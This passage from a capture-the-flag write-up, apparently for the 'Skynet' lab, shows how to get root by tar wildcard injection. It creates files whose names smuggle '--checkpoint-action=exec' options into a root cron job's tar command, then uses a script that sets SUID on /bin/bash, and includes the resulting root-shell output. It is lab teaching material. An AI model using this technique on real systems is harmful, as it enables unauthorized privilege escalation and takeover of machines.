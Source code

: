 - Creates an empty file named `--checkpoint=1` to trigger a checkpoint after processing one file in `tar`.

```bash
echo "" > '--checkpoint-action=exec=sh privesc.sh'
```

- Creates an empty file named `--checkpoint-action=exec=sh privesc.sh`, which instructs `tar` to execute `sh privesc.sh` at the checkpoint.

 **Summary:** These commands create files that exploit `tar`'s `--checkpoint` and `--checkpoint-action` options to execute a privilege escalation script (`privesc.sh`).

What we have left to do is create the `privesc.sh` script to generate a way to gain `root` access, just create a file named `privesc.sh` and add the next content.

```bash
#!/bin/bash
chmod u+s /bin/bash
```

This will add **SUID** perms to the `bash` binary.

Now let's see what will happen when the cron job executes the script `backup.sh`, we just created files named as `tar` arguments.

So the command that `backup.sh` started running:

```bash
tar cf /home/milesdyson/backups/backup.tgz *
```

Actually looks like this:

```bash
tar cf /home/milesdyson/backups/backup.tgz --checkpoint-action=exec=sh privesc.sh admin	css js --checkpoint=1 ai image.png privesc.sh 45kra24zxs28v3yd config index.html style.css
```

Here you should see more clearly how it works, we are adding argumentes via file names.

Then once the cron job executes `backup.sh` again we should see that `/bin/bash` is flagged as **SUID**.

```bash
www-data@skynet:/var/www/html$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

There we are, we now can spawn a privileged shell.

```bash
www-data@skynet:/var/www/html$ bash -p
bash-4.3# whoami
root
```

Finally we get a shell as root, let's take a look to the `root.txt` flag.

```bash
bash-4.3# cat root.txt 
3f0372db******ccc7179*****d6a949
```
